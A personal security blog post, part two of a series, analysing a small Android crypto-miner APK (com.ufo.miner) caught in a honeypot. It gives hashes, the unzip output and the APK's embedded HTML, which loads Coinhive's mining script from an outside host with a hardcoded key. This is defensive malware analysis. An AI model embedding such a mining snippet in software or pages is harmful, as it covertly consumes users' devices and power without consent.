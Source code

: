 ```yaml
---
slug: fishing-for-malware-2
title: "Fishing for Malware — Part Two: Android Crypto Miner"
authors: [sid]
keywords: ['sid', 'lacy', 'blog', 'website', 'cybersecurity', 'security', 'computer', 'honeypot', 'malware', 'tech', 'network']
tags: [analysis, projects]
description: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
summary: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
date: 2022-01-23
draft: false
---
```


## Information

### Indicators of Compromise

 - MD5: `8844985fcd57b0311d1d4cb2ec13a1ef`
 - SHA-1: `a0c07fe897515e5575a72f94f9dea8c077a410ff`
 - SHA-256: `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257`
 - Package name: `com.ufo.miner`
 - Connected domain: `coinhive.com`
 - Unexpected high utilization of Android device resources

 ### File
 - Magic: APK archive
 - Language: Java
 - Size: 45.43 KB

[*See this file on VirusTotal*](https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257/detection)

As the heading and package name imply, this is a crypto miner developed for Android devices. However, that isn't particularly interesting on its own, and 45.43 KB is small — suspiciously small — so let's take a look inside the file.

## Source

### Extraction

```bash
$ unzip 0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip 
Archive:  0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip
  inflating: META-INF/MANIFEST.MF    
  inflating: META-INF/CERT.SF        
  inflating: META-INF/CERT.RSA       
 extracting: res/drawable-xhdpi-v4/ic_launcher.png  
  inflating: AndroidManifest.xml     
 extracting: res/drawable-hdpi-v4/ic_launcher.png  
  inflating: res/layout/activity_main.xml  
  inflating: assets/run.html         
 extracting: resources.arsc          
 extracting: res/drawable-mdpi-v4/ic_launcher.png  
  inflating: classes.dex             
 extracting: res/drawable-xxhdpi-v4/ic_launcher.png  
  inflating: res/menu/main.xml     
  
$
```
I see an HTML file, some PNG images, and some other files, the extensions of which I am not familiar with. Let's check them out.

```bash
$ cat assets/run.html
```
```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('fwW95bBFO91OKUsz1VhlMEQwxmDBz7XE',{
        threads:4,
        throttle: 0.8
});
    miner.start();
</script>
```

Sigh. It remains boring. *However,* by searching for the crypto wallet hardcoded into the HTML, I came across a presentation from [Fortinet](https://www.blackalps.ch/ba-18/files/talks/BlackAlps18-Axelle_Apvrille.pdf), indicating that this CoinHive-related malware may have been a part of the [Trinity Android P2P malware bot](https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/11/22/trinity_p2p_malware-8S4I.html), which *is* quite interesting. Alas, that is a rabbit hole for another blog post.

Each PNG was a rescaled version of the stock Android logo — not much to say beyond that.

How I assume this malware works:

1. The victim's stock web browser embeds into an app frame in the background.

2. Instructions are received from CoinHive.

3. The miner starts working, sending proof of work to the address hardcoded into the script.

4. The victim's phone gets too hot, or the battery drains too fast; upon seeing the culprit as *com.ufo.miner* in the power report of the device, the victim promptly uninstalls the application.

## Personal Thoughts

This is a very small application and doesn't perform any particularly special operations; in fact, I debated including it in this series at all. More interesting that the malware itself to me, however, is the platform it targets.

In the context of cryptocurrency mining, Android devices are not particularly powerful, and therefore not as lucrative as most other computing machines. It would take a vast, vast array of Android smartphones/tablets/et cetera to generate even a moderate amount of the more popular cryptocurrencies available today, such as Bitcoin. This issue is exacerbated by the ease of detection; many users infected with this malware, I would reason, could trivially identify its existance via the power usage utility on their respective Android device, thereby shortening runtime.

A humorus reference to Coinhive's `coinhive.min.js` script I found online: ["Stack Overflow: \[Coinhive header\] automatically appears in my website"](https://stackoverflow.com/questions/48375946/script-src-https-coinhive-com-lib-coinhive-min-js-script-automatically-a/48376076#48376076)

And, finally, kudos to Troy Hunt, who [bought the Coinhive domain and shut it down](https://www.troyhunt.com/i-now-own-the-coinhive-domain-heres-how-im-fighting-cryptojacking-and-doing-good-things-with-content-security-policies/).

Thanks so much for reading!

---

**[Fishing for Malware: Part 3 →](/media/fishing-for-malware-3)**  
**[← Fishing for Malware: Part 1](/media/fishing-for-malware-1)**

I am open to comments and criticism — I learn alongside you. Please, do not hesitate to [suggest an edit](mailto:contact@swlacy.com?subject=Blog%20Edit%20Suggestion).

---

Sid Lacy  
[Email](mailto:contact@swlacy.com?subject=Hello!) • [LinkedIn](https://www.linkedin.com/in/lacysw/) • [GitHub](https://github.com/lacysw)